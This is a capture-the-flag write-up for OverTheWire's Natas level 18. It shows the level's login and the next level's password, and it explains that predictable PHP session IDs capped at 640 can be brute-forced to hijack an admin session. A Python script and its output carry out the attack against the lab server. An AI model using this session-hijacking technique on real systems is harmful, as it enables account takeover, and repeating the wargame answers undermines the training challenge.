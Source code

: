 # Natas18

*	user: `natas18`
*	pass: `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`
*	url: `http://natas18.natas.labs.overthewire.org`
*	flag: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`

## Procedure

1.	In source code, directive

		$maxid = 640; // 640 should be enough for everyone

	suggests us that `PHPSESSID` may assume values up to `640`. This number is
	sufficiently low to allow a brute-force attack against `PHPSESSID`
	variable in order to perform [Session Hijacking](http://en.wikipedia.org/wiki/Session_hijacking).

2.	A simple Python script (see [natas18.py](./scripts/natas18.py)) will
	do it on behalf of us

		import requests

		target = 'http://natas18.natas.labs.overthewire.org'
		auth = ('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
		params = dict(username='admin', password='s3cr3t')
		cookies = dict()

		max_s_id = 640
		s_id = 1
		while s_id <= max_s_id:
			print "Trying with PHPSESSID = " + str(s_id)
			cookies = dict(PHPSESSID=str(s_id))
			r = requests.get(target, auth=auth, params=params, cookies=cookies)
			if "You are an admin" in r.text:
				print r.text
				break
			s_id += 1

	This is the result

		$ python natas18.py
		Trying with PHPSESSID = 1
		Trying with PHPSESSID = 2
		...
		Trying with PHPSESSID = 45
		Trying with PHPSESSID = 46
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
		<body>
		<h1>natas18</h1>
		<div id="content">
		You are an admin. The credentials for the next level are:<br><pre>Username: natas19
		Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>
